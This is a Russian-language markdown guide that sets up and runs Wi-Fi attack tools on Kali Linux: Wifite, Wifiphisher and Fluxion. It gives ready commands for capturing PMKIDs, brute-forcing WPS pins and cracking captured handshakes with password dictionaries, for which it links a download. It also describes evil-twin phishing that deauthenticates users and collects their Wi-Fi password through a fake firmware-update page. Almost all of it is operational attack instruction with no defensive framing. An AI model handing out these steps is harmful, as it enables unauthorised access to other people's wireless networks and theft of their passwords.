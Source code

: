 # Wifite

Wififte предустановлен в Kali Linux, однако, есть не установленные зависмости.

Доустановка зависимостей для Wifite:

	sudo apt-get install -y python2 
	sudo apt-get install python2-pip

	#---------------------------------- Pyrit -------------------------------------------
	sudo apt-get install -y python3-scapy libssl-dev zlib1g-dev libpcap0.8-dev python2-dev
	cd ~/Загрузки && sudo wget -c https://github.com/JPaulMora/Pyrit/archive/v0.5.0.tar.gz
	sudo tar -xf v0.5.0.tar.gz && cd Pyrit-0.5.0 && sudo sed -i "s/COMPILE_AESNI/NO_COMPILE_AESNI/" cpyrit/_cpyrit_cpu.c
	sudo python2 setup.py build 
	sudo python2 setup.py install
	#--------------------------------------------------------------------------------------
	sudo apt-get install -y hashcat
	sudo apt-get install -y hcxtools
	sudo apt-get install -y hcxdumptool 
	sudo apt-get install -y bully
	sudo apt-get install -y macchanger


Установить сам Wifite:

	sudo apt-get install -y wifite
	
Чтобы запустить атаку с заданым временем для PMKID: 

	sudo wifite --pmkid-timeout 30 --random-mac --kill 

Если хотите запустить атаку со своим словарем, то добавьте --dict ~/dict/WPS_Pins.txt - путь до словаря, я использую WPS пин-коды

Чтобы запустить атаку на заданном сетевом интерфейсе добавьте параметр i, например:

	-i wlan0
	
Запустить атаку на WPS:

	sudo wifite --wps-only --bully --ignore-lock --random-mac
	
Запустить взлом перехваченного рукопожатия (Handshake):

	sudo wifite --crack --dict ~/dict/8digitBack.txt --all

*Путь до словаря паролей

**Cловари можно скачать [здесь](https://disk.yandex.ru/d/v4Lbt1p47K8bIw)**


Перезапустить сетевой интерфейс после использования Wifite:

	sudo airmon-ng stop wlan0mon 
	
*Название интерфейса может отличаться.
	

# Wifiphisher 

Для атаки, в которой играет немалую роль социальная инженерия, есть инструмент под названием Wifiphisher. Он деаутентифицирует подключенных пользователей целевой точи доступа и поднимает ее фальшивую копию без пароля. Пользователи, думая что что-то не так с роутером, подключаются с фальшивой точке (к настоящей они не могут подключиться из-за работы нашей программы) и, якобы для обновления прошивки, точка их просит ввести пароль. После ввода пароль приходит нам.
 

**Установка:** 

	sudo apt-get install wifiphisher

**Использование**

	sudo wifiphisher

	

# FLUXION 


Данный инструмент похож на предыдущий, но он более продвинутый. Есть поддержка русского языка. 

Сначала Fluxion захватывает рукопожатие, достает из него хэш пароля, а затем делает всё тоже самое что и wifiphisher, только если пользователь введет верный пароль, Fluxion свернет поддельную точку доступа и атака завершится успехом. Для него лучше иметь дополнительный wifi-адаптер.

**Установка:**

	git clone https://github.com/FluxionNetwork/fluxion && cd fluxion/ && sudo ./fluxion.sh

**Использование:**

	sudo ./fluxion.sh
